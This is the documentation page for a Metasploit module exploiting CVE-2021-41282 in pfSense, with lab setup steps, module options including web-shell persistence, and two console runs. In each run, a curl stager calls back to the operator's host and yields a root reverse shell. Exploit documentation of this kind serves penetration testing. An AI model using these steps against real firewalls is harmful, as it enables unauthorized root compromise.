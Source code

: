 ## Vulnerable Application

### Description

This module exploits an arbitrary file creation vulnerability in the pfSense HTTP interface
(CVE-2021-41282). The vulnerability affects versions <= 2.5.2 and can be exploited by an
authenticated user if they have the "WebCfg - Diagnostics: Routing tables" privilege.

This module uses the vulnerability to create a web shell and execute payloads with root privileges.

### Installation

Download an affected version's ISO. For example, pfSense 2.5.2 can be download here:

https://nyifiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz

* Follow the [installation guide](https://docs.netgate.com/pfsense/en/latest/install/install-pfsense.html) to get an initial base install.
* Log into the web interface using the credentials `admin:pfsense`
* Run through the [setup wizard](https://docs.netgate.com/pfsense/en/latest/config/setup-wizard.html).

To test a user that *only* has the `WebCfg - Diagnostics: Routing tables` privilege, as an
`admin` create a new user. The add user interface is in the `System` -> `User Manager` page.
Select the `Add` user button and create the user. Once the user is created, edit the user
and `Add` an `Effective Privilege`. Only assign `WebCfg - Diagnostics: Routing tables`. Done!

## Verification Steps

* Follow the installation instructions above
* Do: `use exploit/unix/http/pfsense_diag_routes_webshell`
* Do: `set username <name>`
* Do: `set password <password>`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a reverse shell

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

### USERNAME

The username to log in to the pfSense web interface with. The default is `admin`.

### PASSWORD

The password to log in with. Set to `pfsense` by default.

### WEBSHELL_NAME

Allows the user to name the webshell. If the user doesn't provided a name then one will be automatically generated.
Set to `nil` by default.

### DELETE_WEBSHELL

Indicates if the web shell should be deleted after reverse shell is established. A user may want to leave behind a
web shell for persistence reasons. The default is `true`.

### Target 0

Target 0 is a `CMD_ARCH` reverse shell using openssl.

### Target 1

Target 1 is a `bsd/x64` reverse shell using the curl command stager.


## Scenarios

### pfSense 2.5.2. Reverse shell using openssl cmd_arch payload.

```
msf > use exploit/unix/http/pfsense_diag_routes_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf exploit(unix/http/pfsense_diag_routes_webshell) > set USERNAME diag_only
USERNAME => diag_only
msf exploit(unix/http/pfsense_diag_routes_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(unix/http/pfsense_diag_routes_webshell) > set RHOST 10.0.0.10
RHOST => 10.0.0.10
msf exploit(unix/http/pfsense_diag_routes_webshell) > check

[!] This exploit may require manual cleanup of '/usr/local/www/HFkrB' on the target
[+] 10.0.0.10:80 - The target is vulnerable.
msf exploit(unix/http/pfsense_diag_routes_webshell) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(unix/http/pfsense_diag_routes_webshell) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading webshell to /dgGNIYHKgUL.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /dgGNIYHKgUL.php
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/kDumgxJC
[*] Local IP: http://10.0.0.2:8080/kDumgxJC
[*] Client 10.0.0.10 (curl/7.76.1) requested /kDumgxJC
[*] Sending payload to 10.0.0.10 (curl/7.76.1)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[+] Deleted /usr/local/www/hrCcgfpdiGhC
[+] Deleted /usr/local/www/dgGNIYHKgUL.php
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.10:57590 ) at 2022-02-27 18:08:12 -0800
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
pwd
/usr/local/www
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```

### pfSense 2.5.2. Reverse shell using bsd reverse shell and curl command stager.

```
msf > use exploit/unix/http/pfsense_diag_routes_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf exploit(unix/http/pfsense_diag_routes_webshell) > set USERNAME diag_only
USERNAME => diag_only
msf exploit(unix/http/pfsense_diag_routes_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(unix/http/pfsense_diag_routes_webshell) > set RHOST 10.0.0.10
RHOST => 10.0.0.10
msf exploit(unix/http/pfsense_diag_routes_webshell) > check

[!] This exploit may require manual cleanup of '/usr/local/www/QEpijnAPnpu' on the target
[+] 10.0.0.10:80 - The target is vulnerable.
msf exploit(unix/http/pfsense_diag_routes_webshell) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(unix/http/pfsense_diag_routes_webshell) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading webshell to /xsYZjKyayH.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /xsYZjKyayH.php
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/eUKIs9nMdZP2t
[*] Local IP: http://10.0.0.2:8080/eUKIs9nMdZP2t
[*] Client 10.0.0.10 (curl/7.76.1) requested /eUKIs9nMdZP2t
[*] Sending payload to 10.0.0.10 (curl/7.76.1)
[*] Command Stager progress - 100.00% done (114/114 bytes)
[+] Deleted /usr/local/www/MkTcoNc
[+] Deleted /usr/local/www/xsYZjKyayH.php
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.10:1879 ) at 2022-02-27 17:55:51 -0800
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
pwd
/usr/local/www
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```
